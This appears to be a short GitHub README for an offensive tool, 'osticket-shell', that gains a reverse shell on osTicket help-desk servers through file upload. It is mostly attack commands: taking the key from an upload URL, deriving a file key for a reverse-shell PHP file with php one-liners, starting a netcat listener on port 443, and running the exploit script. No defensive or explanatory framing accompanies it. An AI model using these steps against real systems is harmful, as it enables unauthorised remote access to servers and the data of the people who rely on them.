 # osticket-shell

## osticket file upload to reverse shell

* After uploading file
	* `http://target/file.php?key=t4hjgruq3xmgvta0gr8vm9nf5hjyykfui&expires=111111400&signature=f03c2714xxd8f914xxh6de56bd96xx147646683&id=17`

* copy key
	* `t4hjgruq3xmgvta0gr8vm9nf5hjyykfui`

* File key
	* `secrule@ubuntu:~$ php -a `                                  
	* `php > $sha1 = base64_encode(sha1_file('/opt/reverse-shell.php', true));` < path shell | Attacker machine
	* `php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));`                                                               
	* `output: rUQ3xMGvtA0sn8vM9nf5OQdkFuI`

* listen netcat
	* `nc -lvp 443`

# Usage
`./osticket_shell.sh`
